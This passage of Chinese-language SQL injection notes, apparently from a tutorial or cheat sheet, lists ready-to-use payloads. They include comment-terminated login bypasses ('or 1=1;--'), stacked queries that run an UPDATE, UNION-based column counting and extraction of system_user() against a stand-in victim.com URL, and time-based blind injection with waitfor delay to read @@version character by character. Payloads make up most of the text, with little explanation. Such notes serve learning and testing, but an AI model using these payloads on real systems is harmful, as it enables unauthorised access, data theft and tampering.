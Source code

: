 
三．终止式注入
终止式注入是指攻击者在注入SQL代码时，通过将原来查询语句的剩余部分注释掉，从而成功结束原来的查询语句
select * from administrators where username=’[A]’ and passoword=’[B]’

(1)执行单条语句
当返回多行
[A]:’ or 1=1;--

[A]:’/*
[B]:*/ or ‘1’=’1

当返回一行
[B]:admin’;--

[A]admin’  /*
[B]*/’

(2)执行多条语句(堆叠技术，sql server6.0;mysql 4.1,oracle不支持)
select * from demo where id=[];

[A]:2;update demo set name=’li’ where id=2;--
(他只会显示第一条语句的查询结果)


四．union提取数据
(1)猜取当前数据库的列数(利用逐步添加null，直到不报错)
http://www.victim.com/products.asp?id=12 union select null--
http://www.victim.com/products.asp?id=12 union select null,null--
http://www.victim.com/products.asp?id=12 union select null,null,null--

oracle(特殊)
http://www.victim.com/products.asp?id=12 union select null from daul--

(2)猜取当前数据库的列数(利用order by，直到报错)
http://www.victim.com/products.asp?id=12 order by 1
http://www.victim.com/products.asp?id=12 order by 2
http://www.victim.com/products.asp?id=12 order by 3

(3)猜取当前列的数据类型或兼容(当猜测为字符型时,则返回正确)
http://www.victim.com/products.asp?id=12 union select ‘test’,null,null--
http://www.victim.com/products.asp?id=12 union select null,’test’,null--
http://www.victim.com/products.asp?id=12 union select null,null,’test’--

(4)在对应数据类型的列获取其他数据（当第一列为字符型）
http://www.victim.com/products.asp?id=12 union select system_user(),null,null--

(5)当只能获取一行数据
http://www.victim.com/products.asp?id=12 and 1=0 union select system_user(),null,null--
http://www.victim.com/products.asp?id=12 and 1=0 union select system_user(),null.null where userid=2--


五．使用条件语句
(1)基于时间
利用时间延迟来判断正错
if(system_user=’sa’)waitfor delay ‘0:0:5’--
利用时间延迟逐个来提取单个字符
if(substring((select @@version),25,1)=5)waitfor delay ‘0:0:5’--

